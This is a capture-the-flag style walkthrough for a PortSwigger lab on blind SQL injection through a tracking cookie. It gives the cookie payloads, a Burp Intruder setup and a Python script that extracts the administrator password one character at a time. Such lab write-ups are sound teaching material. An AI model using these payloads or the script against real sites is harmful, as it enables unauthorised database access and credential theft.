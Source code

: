 ## PortSwigger Blind SQL Injection with Conditional Responses

If you're using the community edition of Burp Suite, brute-forcing all lowercase characters and digits (0-9) can take hours. So I came up with this solution which is more efficient and creative.

---

## Challenge Description

![Challenge Description](./Screenshots/Challenge_description.png)

The challenge description reveals that the application uses the `TrackingId` cookie in SQL queries. We also confirm the existence of the `users` table, the `administrator` user, and a `password` column.

---

## Determining the Password Length

1. Open Burp Suite, intercept the request, and send it to Repeater.

   ![Repeater](./Screenshots/Repeater.png)

2. Since the cookie value is part of the query, we can attempt SQL injection. Removing it may cause an error, so we modify it instead:

   ```sql
   TrackingId=xyz' AND '1'='1
   ```

   ![First Payload](./Screenshots/FirstPayload.png)

   If the response contains `Welcome back!`, we know the injection was successful. Since this is a blind SQL injection scenario, the database does not return direct query results, but we can infer information from response differences.

3. Next, verify if the `administrator` user exists:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   ```

   ![Second Payload](./Screenshots/SecondPayload.png)

   If `Welcome back!` appears, the `administrator` user exists.

4. Now, determine the password length:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 1)='a
   ```

   ![Length Check](./Screenshots/Length.png)

   Increase the number incrementally until `Welcome back!` disappears. Instead of manually testing, we automate it using Burp Suite’s Intruder:

   ![Intruder Setup](./Screenshots/Intruder1.png)

   To generate a wordlist of numbers from 1 to 100, I used ChatGPT to create a text file.

   Configure the settings:

   ![Intruder Grep](./Screenshots/Intruder2.png)

   Using the **Grep** function ensures that we detect when `Welcome back!` appears in responses. 

   Launch the attack!

   ![Attack Result](./Screenshots/AttackResult.png)

   The `Welcome` column stops appearing after 20, confirming the password length.

---

## Extracting the Password

Now, brute-force the password character by character using SQL’s `SUBSTRING()` function. We use Burp Suite’s Intruder similarly:

![Intruder for Password](./Screenshots/Intruder3.png)

Since Burp Suite Community Edition is slow, a Python script offers a more efficient approach:

```python
import requests
import string

url = "https://example.web-security-academy.net/"

headers = {
    "Host": "example.web-security-academy.net",
    "Cookie": "TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
}

characters = string.ascii_lowercase + string.digits
password = ""

for position in range(1, 21):  # Assuming the password is 20 characters long
    for char in characters:
        headers["Cookie"] = f"TrackingId=xyz' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        response = requests.get(url, headers=headers)

        if "Welcome" in response.text:
            password += char
            print(f"Found character: {char} | Current password: {password}")
            break
    else:
        print(f"No valid character found for position {position}. Exiting.")
        break

print(f"Final password: {password}")
```

This script rapidly extracts the password, completing the attack in under a minute.

![Fincal Output](./output.png)

---

## Conclusion

By leveraging SQL injection techniques, we successfully extracted the administrator password using boolean-based inference. While Burp Suite’s Intruder is useful, a Python script significantly speeds up the process.

Happy hacking!
